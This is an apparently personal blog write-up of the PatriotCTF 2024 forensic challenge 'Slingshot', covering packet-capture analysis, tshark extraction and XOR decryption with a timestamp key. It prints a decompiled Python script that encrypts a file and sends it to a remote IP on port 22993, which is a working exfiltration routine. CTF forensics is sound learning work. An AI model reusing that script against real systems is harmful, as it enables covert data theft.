 ```yaml
---
title: 'PATRIOT CTF 2024'
date: 2024-09-22
permalink: /posts/2024/09/patriotctf/
tags:
  - web
  - osint
  - misc
  - forensic
---
```


Introduction
=====
<div style="text-align: center; size: 50px">
  <img src="/images/patriotctf2024/pctf-cert.png" alt="PATRIOTCTF2024" />
</div>
<br>
PatriotCTF is a beginner-friendly capture-the-flag competition hosted by GMU's cybersecurity club, MasonCC. All are welcome to participate, including students and security professionals. Challenges will range from beginner to expert, so there should be something for everyone. This is a jeopardy-style CTF, meaning there will be various challenges from the different categories described below. 


# Forensic
* **Slingshot**
> <span style="color:pink">Author: AJ Hoepfner (greatvaluerice)</span>

    Description:
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/images/patriotctf2024/for/Slingshot/description.png" alt="Challenge" />
    </div>
    <br>
    
    The challenge gives us a `.pcapng` file. Let's analyze it! The first, I check *Protocol Hierarchy Statistics*. 
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/images/patriotctf2024/for/Slingshot/hierarchy.png" alt="hierarchy" />
    </div>
    <br>

    It showed 100% of the packet is TCP, so I filtered HTTP first.
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/images/patriotctf2024/for/Slingshot/http-fil.png" alt="" />
    </div>
    <br>
    
    Then, i export this `.pyc` file and uncompiled it. I got the `.py` with content:
    ```
    import sys
    import socket
    import time
    import math
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    file = sys.argv[1]
    ip = sys.argv[2]
    port = 22993
    with open(file, 'rb') as r:
        data_bytes = r.read()
    current_time = time.time()
    current_time = math.floor(current_time)
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(data_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))
    s.connect((ip, port))
    s.send(encrypt_bytes)
    ```
    The code opens the secret file in binary read mode `('rb')` and reads its contents into a byte string `data_bytes`.

    The current time is obtained using time.time() and converted to an integer using math.floor(). This integer is then converted to a byte string `key_bytes` using the encode() method with the 'utf-8' encoding.
    
    The code calculates the length of the key `init_key_len` and the length of the data `data_bytes_len`. It then calculates the number of times the key needs to be repeated to match the length of the data `temp1` and the remaining bytes `temp2`.

    The key is repeated `temp1` times and then padded with the first `temp2` bytes of the key to match the length of the data. 
    
    Then the code uses a generator expression to perform a byte-wise XOR operation between the key and the data, resulting in an encrypted byte string `encrypt_bytes`. Finally send it to some ip with port `22993`.
    
    Continuously, i filtered the packet with port `22993` and have `data`
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/images/patriotctf2024/for/Slingshot/filter.png" alt="" />
    </div>
    <br>
    
    Nice, i found 3 packets was send. So let's extract all of them by using this command:
    > tshark -r Slingshot.pcapng -Y 'tcp.port ==22993 and data and data.len!=1' -T fields -e data > data.enc
    
    Next step is find timestamp or key. It is the epoch time when the first packet send.
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/images/patriotctf2024/for/Slingshot/time.png" alt="" />
    </div>
    <br>
    
    Nice, i got all things to decrypt the flag. Here is my code:
    ```
    from datetime import datetime
    import math
    
    with open("data.enc") as f:
        total_hex = "".join([line.strip() for line in f.readlines()])
    encrypted_bytes = bytes.fromhex(total_hex)
    
    current_time = 1726595769.063377000
    current_time = math.floor(current_time)
    
    key_bytes = str(current_time).encode('utf-8')
    init_key_len = len(key_bytes)
    data_bytes_len = len(encrypted_bytes)
    temp1 = data_bytes_len // init_key_len
    temp2 = data_bytes_len % init_key_len
    key_bytes *= temp1
    key_bytes += key_bytes[:temp2]
    
    decrypted_bytes = bytes(a ^ b for a, b in zip(key_bytes, encrypted_bytes))
    image_filename = 'decrypted_image.jpg'
    
    with open(image_filename, 'wb') as f:
        f.write(decrypted_bytes)
    
    print("Done")
    ```
    
    
    Flag:
    <div style="text-align: center;">
        <img src="/workspaces/NguyenCongHaiNam.github.io/_posts/2024-09-23-patriotctf.md" alt="" />
    </div>
    <br>
    
    ### Conslusion:
    + Export the encrypt code
    + Filter to extract data and timestamp
    + Decrypt flag

    # Updating...